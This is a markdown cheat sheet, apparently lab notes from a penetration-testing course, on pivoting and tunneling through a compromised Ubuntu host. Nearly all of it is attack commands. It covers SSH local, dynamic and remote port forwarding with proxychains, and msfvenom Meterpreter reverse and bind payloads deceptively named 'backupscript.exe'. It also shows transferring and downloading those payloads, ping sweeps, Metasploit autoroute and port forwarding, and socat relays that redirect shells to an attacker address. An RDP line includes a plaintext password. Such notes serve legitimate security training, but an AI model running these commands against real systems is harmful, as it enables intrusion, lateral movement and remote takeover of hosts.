


## SSH Local Port Forwarding


### Scan Pivot Target

```bash
nmap -sT -p22,3306 10.129.202.64
```

### Executing Local Port Forwarding

```bash
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

## Forwarding multiple ports
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### Confirming Port Forward

```bash
## Confirming port forward with netstat
netstat -antp | grep 1234

## Confirming port forward with nmap
nmap -v -sV -p1234 localhost
```



Unlike the previous scenario where we knew which port to access, in our current scenario, we don't know which services lie on the other side of the network. We cannot perform this scan directly from our attack host because it does not have routes to the 172.16.5.0/23 network.

We will have to perform dynamic port forwarding and pivot our network packets via the Ubuntu server. We can do this by starting a SOCKS listener on our local host (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host.

### Enabling Dynamic Port Forwarding with SSH

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

### ProxyChains

Even with dynamic port forwarding enabled, we need a tool to route the packets over the port mentioned above. One such tool is `ProxyChains`

```bash
## Modify /etc/proxychains.conf example
socks4 127.0.0.1 9050

## Check /etc/proxychains.conf
tail -4 f/etc/proxychains.conf
```

```bash
## Nmap with proxychains
proxychains nmap -v -sn 172.16.5.1-200

## xfreerdp with proxychains
proxychains xfreerdp /v:172.16.5.19 /u:victor .p:pass@123
```

## Remote/Reverse Port Forwarding with SSH




### Creating Windows Payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Transferring Payload to Host

```bash
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Downloading Payload from Windows Target

```bash
## Start Python3 Webserver on Pivot Host
python3 -m http.server 8123
```

```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH-R (SSH Remote Forwarding)

```bash
## listen on <internalIPaddress>:8080 and forward all incoming on 8080 to 0.0.0.0:8000
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

## Meterpreter Tunneling 

### Create Payload for Ubuntu Pivot Host

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Meterpreter Session Establishment

```bash
## Ping sweep
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

## Ping Sweep For Loop on Linux Pivot Hosts
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

## Ping Sweep For Loop Using CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

## Ping Sweep Using PowerShell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

### Configuring MSF SOCKS Proxy

```bash
msf6 > use auxiliary/server/socks_proxy

## Set the relevant options and add a line to proxychains.conf if needed
```

### AutoRoute

```bash
msf6 > use post/multi/manage/autoroute

## Set the relevant options

meterpreter > run autoroute -s 172.16.5.0/23
```

## Meterpreter Port Forwarding

### Create Local TCP Relay

```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

### Reverse Port Forwarding 

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```


## Socat

Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. 

### Socat Redirection with Reverse Shell

```bash
## Starting Socat Listener
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

## Creating Windows Payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

### SoCat Redirection with Bind Shell

```bash
## Creating Windows Payload
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

## Starting Socat Bind Shell Listener
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
